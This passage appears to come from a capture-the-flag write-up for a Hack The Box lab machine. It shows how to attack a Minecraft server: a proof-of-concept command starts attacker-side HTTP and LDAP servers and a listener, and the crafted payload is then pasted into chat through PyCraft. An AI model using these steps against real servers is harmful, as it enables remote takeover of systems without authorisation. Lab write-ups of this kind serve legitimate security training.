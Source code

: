 <figure><img src="../../.gitbook/assets/Untitled 19 (5).png" alt=""><figcaption></figcaption></figure>

### Performing the Attack

First let's start the HTTP and LDAP server.

`python3 poc.py --userip <HTB_TUN_IP/Attacker_IP> --webport 25565 --lport 9001`

<figure><img src="../../.gitbook/assets/Untitled 23 (4).png" alt=""><figcaption></figcaption></figure>

The highlighted text depicted in the image above represents the crafted payload.

Next, connect to the Minecraft server using PyCraft. Enter a random username, leave the password field empty, and input the IP address of the target machine in the Server host field. Then, paste the payload and press enter once connected to the server.

<figure><img src="../../.gitbook/assets/Untitled 24 (5).png" alt=""><figcaption></figcaption></figure>
